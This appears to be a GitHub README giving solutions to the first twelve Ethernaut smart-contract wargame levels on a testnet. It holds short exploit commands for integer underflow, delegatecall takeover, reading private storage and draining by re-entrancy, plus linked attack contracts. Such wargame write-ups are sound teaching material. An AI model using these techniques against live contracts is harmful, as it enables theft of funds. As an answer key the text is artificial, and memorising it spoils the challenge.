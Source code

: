 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.

## 5. Token

```
const balance = Number(await contract.balanceOf(player));
await contract.transfer(level /* can be any address except own */, balance + 1 /* create underflow in contract */);
```

## 6. Delegation

See solidity function [delegatecall](https://solidity-by-example.org/delegatecall/).
```
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature("pwn()") });
```

## 7. Force

See solidity function [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/).  
Compile [ForcePay.sol](./solutions/ForcePay.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH.
Afterwards, just call the `destroyAndLeaveBalanceAt(address _contract)` function with the level `instance` address as first argument.

## 8. Vault

```
const password = await web3.eth.getStorageAt(instance, 1); // get storage variable at index 1 of contract (although it's private!)
await contract.unlock(password);
```

## 9. King

Compile [King4Ever.sol](./solutions/King4Ever.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH and the level `instance` address as argument (constructor).
The fallback function of this contract is going to revert any subsequent transaction which is trying to claim the throne.

## 10. Re-entrancy

Compile [ReentranceAttack.sol](./solutions/ReentranceAttack.sol) and deploy it to the Rinkeby testnet with e.g. 0.0001 ETH and the level `instance` address as argument (constructor).
Afterwards, just call the `drainVictim()` function to steal all funds from the level contract. Once this is done, do not forget to call the `withdraw()` function to get the funds back to your wallet.

## 11. Elevator

Compile [Building.sol](./solutions/Building.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `goToTop(address _elevatorContract)` function with the level `instance` address as first argument.

## 12. Privacy

See [Layout of State Variables in Storage](https://docs.soliditylang.org/en/v0.6.12/internals/layout_in_storage.html).
```
const data2_32 = await web3.eth.getStorageAt(instance, 5); // get private storage variable 'data[2]' from contract
const data2_16 = data2_32.substring(0, data2_32.length - 32); // remove last 16 bytes from data[2], i.e. typecast from bytes32 to bytes16
await contract.unlock(data2_16);
```

